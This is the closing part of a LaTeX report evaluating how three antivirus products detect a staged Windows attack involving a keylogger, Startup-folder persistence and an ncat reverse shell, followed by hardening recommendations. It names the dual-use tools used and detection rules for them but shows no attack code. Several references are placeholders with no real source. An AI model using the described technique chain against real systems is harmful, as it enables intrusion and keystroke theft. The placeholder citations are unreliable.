			
\includegraphics[width=0.48\linewidth]{Pictures/perf_bitdefender.png} % Placeholder for bitdefender.png
			\caption{Bitdefender Performance.}
			\label{fig:perf_bitdefender}
		\end{subfigure}
		\caption{Performance Impact of Security Solutions during active payloads.}
		\label{fig:performanceimpact}
	\end{figure}
	
	\subsection{Summary of Detection Across Attack Stages}
	Overall detection effectiveness was limited, especially for later-stage activities.
	\begin{itemize}
		\item \textbf{Stage 1 (Batch Loader Execution) \& Stage 2 (Tool Downloads):}
		\begin{itemize}
			\item Windows Defender (Defender) provided an initial warning for the unknown batch file. Chrome blocked one payload download.
			\item Kaspersky and Bitdefender did not alert.
		\end{itemize}
		\item \textbf{Stage 3 (Keylogger Deployment), Stage 4 (Persistence), \& Stage 5 (Reverse Shell C2):}
		\begin{itemize}
			\item All three solutions (Windows Defender, Kaspersky, Bitdefender) failed to detect these activities once initial execution was allowed/bypassed. The keylogger operated, files persisted, and the reverse shell provided C2 access without AV alerts.
		\end{itemize}
	\end{itemize}
	The study highlighted that telemetry from tools like Sysmon and system Event Logs was crucial for reconstructing the full attack flow, as the antivirus tools often failed to correlate activities or flag abnormal persistence.
	
	\section{Discussion and Conclusion}
	% \textcolor{red}{[ADD DISCUSSION]} %Color removed
	
	\subsection{Interpretation of Results}
	The results indicate a significant gap in the detection capabilities of the tested endpoint security solutions against multi-stage stealthy attacks. While initial warnings occurred at delivery/execution (primarily Windows Defender), these were bypassable by user action. Critically, once initial foothold was gained, subsequent keylogging, persistence via Startup folder, and backdoor via reverse shell went largely undetected by all three solutions.
	
	Kaspersky's lack of alerts despite the highest resource consumption suggests higher resource usage doesn't guarantee better detection of these stealth techniques. Bitdefender also showed no detection. The reliance on user approval to run initially flagged executables is a key weakness exploitable via social engineering. Once bypassed, the tools offered little subsequent detection in this study. The successful use of LOLBAS techniques (\texttt{cmd.exe}, \texttt{winget}, \texttt{curl}, \texttt{ncat}) highlights the challenge in distinguishing legitimate tool usage from malicious intent without advanced behavioral analysis.
	
	\subsection{Comparison with Expected Outcomes/Literature}
	These outcomes align with cybersecurity literature emphasizing attackers' use of stealth, fileless malware, and LOLBAS to evade traditional detection. The findings confirm signature-based detection alone is insufficient. The MITRE ATT\&CK framework documents many techniques used (T1059.006 Command/Scripting Interpreter, T1056.001 Keylogging, T1105 Ingress Tool Transfer, T1547.001 Boot/Logon Autostart Execution: Startup Folder). The difficulty in detecting these via standard AV is a known challenge empirically demonstrated here.
	
	The failure to detect persistence or the active C2 channel is concerning but unsurprising, as attackers refine methods to blend with normal activity. This reinforces the need for advanced EDR capabilities focusing on behavioral anomalies and telemetry correlation, as only manual log analysis (Event Logs, Wireshark, ProcMon) could piece together the full attack in this scenario.
	
	\subsection{Challenges Encountered and Limitations of the Study}
	\begin{itemize}
		\item \textbf{Limited Scope:} Focused on specific tools (Python keylogger, Ncat reverse shell, batch scripts) and techniques. Broader scope could yield different results.
		\item \textbf{Security Product State:} Exact versions and default configurations were used. Hardened configurations might perform better.
		\item \textbf{Controlled Environment:} Tests were in a controlled LAN. Real-world attacks involve more complex networks and external C2 infrastructures potentially blocked by broader threat intelligence.
		\item \textbf{User Interaction Assumption:} Bypassing initial warnings relied on simulating user approval ("Run anyway"). Stricter policies or permissions might prevent this.
	\end{itemize}
	
	\subsection{Conclusion}
	This project demonstrated that common tools and techniques can execute a multi-stage stealth attack largely bypassing standard configurations of Windows Defender, Kaspersky, and Bitdefender on Windows 11 Home. While initial execution might trigger warnings, subsequent keylogging, persistence, and C2 were undetected by the tested AVs.
	
	The findings underscore that high resource consumption doesn't guarantee superior protection against these attacks. Without robust behavioral detection and comprehensive host-level logging/monitoring (like Sysmon, Event Logs), such attacks can proceed unnoticed by conventional AV. Traditional solutions struggle to correlate disparate low-level activities if individual components evade basic checks. The kill chain can be completed with minimal friction post-initial bypass.
	
	\subsection{Future Perspectives and Recommendations}
	Based on the findings, recommendations include:
	\begin{itemize}
		\item \textbf{Enhanced Behavioral Detection:} Continued vendor investment in advanced behavioral analytics and ML models to detect anomalous action sequences.
		\item \textbf{Endpoint Detection and Response (EDR):} Deploying/enabling comprehensive EDR solutions for deeper visibility, threat hunting, and incident response, as AV alone proved insufficient here.
		\item \textbf{Specific Hardening Actions:}
		\begin{itemize}
			\item Enable strong script-blocking policies (Windows Defender ASR rules).
			\item Continuously monitor autorun locations (Startup folder, registry keys).
			\item Implement alerting for abuse of tools like ncat or suspicious outbound connections from command-line interpreters.
			\item Maintain detailed host telemetry (Sysmon: process creation, network connections, file creation, DNS queries) to aid analysis when alerts fail.
			\item Consider context-specific whitelisting for legitimate uses of potentially dual-use tools (Python, curl, winget).
		\end{itemize}
		\item \textbf{User Education:} Ongoing training on social engineering and risks of bypassing security warnings.
		\item \textbf{Further Research:} Expand scope (techniques, EDR solutions, OS versions, obfuscation) in future studies.
	\end{itemize}
	Ultimately, defending against modern stealthy attacks requires a defense-in-depth strategy combining robust prevention, advanced detection, comprehensive visibility, and vigilant human oversight.
	
	\newpage
	\begin{thebibliography}{9}
		\bibitem{Hutchins2011} Hutchins, E. M., Cloppert, M. J., \& Amin, R. M. (2011). \textit{Intelligence-Driven Computer Network Defense} (Lockheed Martin Cyber Kill Chain® white-paper).
		\bibitem{MITREATTACK} MITRE ATT\&CK®. (n.d.). Enterprise Matrix \& Technique IDs T1059.006, T1056.001, T1095, T1105, T1547.001. Retrieved from \texttt{https://attack.mitre.org/}
		\bibitem{pynput} pynput documentation. (n.d.). Retrieved from \texttt{https://pynput.readthedocs.io/}
		\bibitem{nmapncat} Nmap Network Scanning – Ncat: The Netcat Utility. (n.d.). Retrieved from \texttt{https://nmap.org/ncat/}
		% Additional references from text/presentation if applicable
		\bibitem{StealthIntro1} Source for: "Modern attackers rarely rely on obvious malware. Instead, they use stealth techniques." (Implicitly from general cybersecurity knowledge)
		\bibitem{StealthIntro2} Source for: "Keyloggers, hidden commands, and backdoors operate silently, bypassing traditional AV/EDR detection." (Implicitly from general cybersecurity knowledge)
		\bibitem{StealthIntro3} Source for: "Security tools like Windows Defender often miss in-memory execution or obfuscated persistence techniques. Signatures alone aren't enough." (Implicitly from general cybersecurity knowledge)
		
		
	\end{thebibliography}
	
\end{document}
